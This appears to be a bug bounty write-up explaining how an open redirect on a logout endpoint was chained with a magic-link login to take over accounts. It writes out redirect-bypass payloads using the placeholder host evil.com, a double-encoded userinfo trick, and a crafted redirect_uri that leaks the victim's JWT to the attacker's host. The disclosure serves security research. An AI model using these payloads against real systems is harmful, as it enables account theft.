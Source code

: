 # Account Takeover Through Open Redirect

## How:

The program had an endpoint that was open to redirection vulnerability. By compining this vulnerability with an authentication functionality I was able to takeover the user
account.

## Open Redirection Vulnerability:

- The application had an endpoint like this <span style="color:red"> ***/logout*** </span> that takes a <span style="color:red">***GET***</span> parameter called <span style="color:red">***r***</span>.
- The parameter <span style="color:red">***r***</span> takes an endpoint to be redirected to like this <span style="color:red">***/logout?r=/dashboard***</span>.
- So I tried to to put a valid host to see what it does like this <span style="color:red">***logout?r=https://program.com/***</span>.
- The application redirected me so, I new that I can play with it to see what else I can get.
- I tried to set the host name to another domain like <span style="color:red">***r=https://evil.com/***</span> and the application responded with <span style="color:red">***invalid redirect uri***</span>.
- Knowing this I thought of listing some payloads to try out:<br>
  <span style="color:red">***r=https://evil.com/program.com***</span><br>
  <span style="color:red">***r=https://program.com.evil.com***</span><br>
  <span style="color:red">***r=https://program.com@evil.com***</span><br>
  <span style="color:red">***r=https://evil.com@program.com***</span><br>
  
- The last one was the road to success from this list. However, it's still no redirection because the application will always redirect to itself.

- So at first why we tried these payloads?
  - When I try to find an open redirection I try first to know what url format is allowed or understandable by browsers. So, the meaning of <span style="color:red">***https://john@program.com***</span> is that you are trying to access <span style="color:red">***program.com***</span> as username <span style="color:red">***john***</span>. You can try this on firefox or chrome. 
  - So, by knowing this I was thinking what if the developer is using a regex that validates this format and when someone tries to change the value of <span style="color:red">***r***</span> to <span style="color:red">***https://evil.com@program.com***</span> he validetes it as a valid value because he know that it's the samething. The user will be redirected to program.com at the end too.
  - Another question comes to my head. What is the set of characters allowed before <span style="color:red">***@***</span> I tried to test it on the browser to see what is allowed. And, I have found that the browser when I but an ecnoded value like this <span style="color:red">***john%2f***</span> as username it validtes it and sees it as a valid value. You can try it <span style="color:red">***john%2f@google.com***</span>.
  - I tried to set <span style="color:red">***r***</span> to <span style="color:red">***https://evil.com%252f@program.com/***</span> and sent the request. The response successfully redirected me to <span style="color:red">***https://evil.com/@program.com/***</span>
  - So, let's break the payload.
    - The application validates this <span style="color:red">***john@program.com***</span> as a valid format.
    - So I tried to inject <span style="color:red">***/***</span> in the payload but doubled encoded like this <span style="color:red">***https://evil.com%252f@program.com/***</span>.
    - It's double encoded because If I encoded one time it will reach the web server decoded one time.
    - The payload reaches the code at the other end like this <span style="color:red">***https://evil.com%2f@program.com/***</span>.
    - Then the response return the redirection like this <span style="color:red">***https://evil.com/@program.com***</span>.
    - As you can see the browser will treat <span style="color:red">***/@program.com***</span> as a path to <span style="color:red">***https://evil.com***</span> and the redirection successfully happenes to <span style="color:red">**evil.com**</span>.
- Another important thing is that the <span style="color:red">***/logout***</span> endpoint sends any get parameter with the new redirection like this <span style="color:red">**/logout?r=https://evil.com%252f@program.com&heap=heap**</span> the redirection will be like this <span style="color:red">**https://evil.com/@program.com/?r=https://evil.com%252f@program.com&heap=heap**</span>.


## Exploiting The Login Functionality.

- The applicaiton has a functionality to send you a magic link to login with it. This endpoint takes an <span style="color:red">***email***</span> and <span style="color:red">***redirect_uri***</span> parameters. So, after trying to find a vulnerability with the email I tried to find what I can do with the <span style="color:red">***redirect_uri***</span>.
- The <span style="color:red">***redirect_uri***</span> takes a url and the applicaion appends a <span style="color:red">**JWT**</span> token to it as a GET parameter and sends it to the user.
- So, I tried to play with the hostname of this url to try and find an open redirection but with no clue.
- But, what if can edit the path of the url like this <span style="color:red">**https://program.com/anypath/anypath**</span> I tried it and sent the request and I looked at my mail I found that the magic link is like this <span style="color:red">**https://program.com/anypath/anypath?jwt=SOME_VALUE**</span>.
- Okay great, can I compine the this with the open redirection I have found before?. I set the <span style="color:red">**redirect_uri**</span> to <span style="color:red">**https://program.com/logout?r=https://evil.com%2525%2532%2566@program.com**</span>.
- And the magic link sent was like this <span style="color:red">**https://program.com/logout?r=https://evil.com%252f@program.com&jwt=SOME_VALUE**</span>.
- Clicking the link I was redirected to <span style="color:red">**https://evil.com/?https://evil.com%252f@program.com&jwt=SOME_VALUE**</span>.
- By this, I was able to get the jwt as an attacker and using the jwt I was able to login.
- So the same scenario is done if you want to target another user. You need an email and after collecting the jwt you can use it to login to the user's account.


### My Info :

#### Yeswehack  : https://yeswehack.com/user/mekky

#### Intigriti  : https://app.intigriti.com/researcher/profile/mekky

#### Linkedin   : https://www.linkedin.com/in/muhammed-mekkawy-1504821b2/

#### Twitter    : https://twitter.com/Mekky49295157

